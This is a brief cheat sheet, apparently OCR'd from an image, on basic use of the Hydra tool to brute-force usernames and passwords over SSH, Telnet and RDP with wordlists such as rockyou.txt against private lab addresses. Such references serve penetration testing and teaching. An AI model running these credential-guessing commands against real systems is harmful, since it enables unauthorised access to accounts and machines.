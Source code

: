 Hydra Basic Usage

Crack Username and Password at the same time:

#hydra -L USERNAME_LIST.txt -P PASSWORD_LIST.txt PROTOCOL://IP

example:

#hydra -L /usr/share/wordlists/accounts.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.1

Only crack Password:

#hydra -l USERNAME -P PASSWORD_LIST.txt PROTOCOL://IP

example:

#hydra -l root -P /usr/share/wordlists/rockyou.txt telnet://192.168.0.2

Try a username-password pair:

#hydra -l USERNAME -p PASSWORD PROTOCOL://IP

example:

#hydra -l administrator -p test123!@# rdp://192.168.0.3